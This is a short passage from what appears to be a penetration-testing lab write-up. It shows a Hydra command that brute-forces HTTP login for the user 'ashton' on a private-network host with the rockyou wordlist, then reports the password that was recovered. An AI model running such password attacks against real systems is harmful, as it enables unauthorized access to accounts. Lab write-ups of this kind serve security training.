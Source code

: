 ### BRUTE FORCE ATTACK

Using Ashton's name, run the Hydra attack against the directory:

* hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

* hydra was successfull at getting the correct login and password:

    - Login: ashton
    - Password: leopoldo 

![pic](4.PNG) 












